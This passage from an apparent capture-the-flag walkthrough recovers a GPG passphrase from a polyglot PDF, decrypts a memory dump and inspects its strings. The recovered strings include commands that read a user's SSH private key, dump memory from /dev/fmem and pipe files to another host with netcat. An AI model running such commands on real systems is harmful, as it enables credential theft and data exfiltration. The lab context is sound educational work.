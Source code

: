 > Ange Albertini explains the internal organization of this issue’s PDF in Section 8. Curious readers might want to run **qemu-system-i386 -fda pocorgtfo02.pdf** in order to experience all the neighbor- liness that this issue has to offer

I ran qemu-system-i386 and passed it polito.pdf as its argument and got the password for dump.gpg:

->![](/images/2014-08-08/05.png)<-

Using the password, I was able to decrypt the dump file: 

```
polito@xerxes2:~$ gpg --passphrase amFuaWNl dump.gpg 
gpg: CAST5 encrypted data
gpg: encrypted with 1 passphrase
gpg: WARNING: message was not integrity protected
polito@xerxes2:~$ ls -l
total 172960
-rw-r--r-- 1 polito polito    142564 Jul 16 10:57 audio.txt
-rw-r--r-- 1 polito polito 132120576 Aug  8 21:15 dump
-rw-r--r-- 1 polito polito  44813850 Jul 16 12:17 dump.gpg
-rw-r--r-- 1 polito polito     27591 Jul 16 12:19 polito.pdf
```

This was a binary file, so I examined it using strings and piped it into less. At around lines 54795-54830, I saw something interesting:

```
cat /home/korenchkin/.ssh/id_rsa
dd if=/dev/fmem of=/root/xerxesmem bs=1M count=128
dd if=/dev/fmem of=/root/xerxesmem bs=1M count=128
cd volatility-2.3.1/
cat xerxesmem |nc 172.16.32.1 5555
root@xerxes2:~/fmem_1.6-0# 
cat Debian7.zip | nc 172.16.32.1 5555
/home/korenchkin/.ssh/id_rsa
```
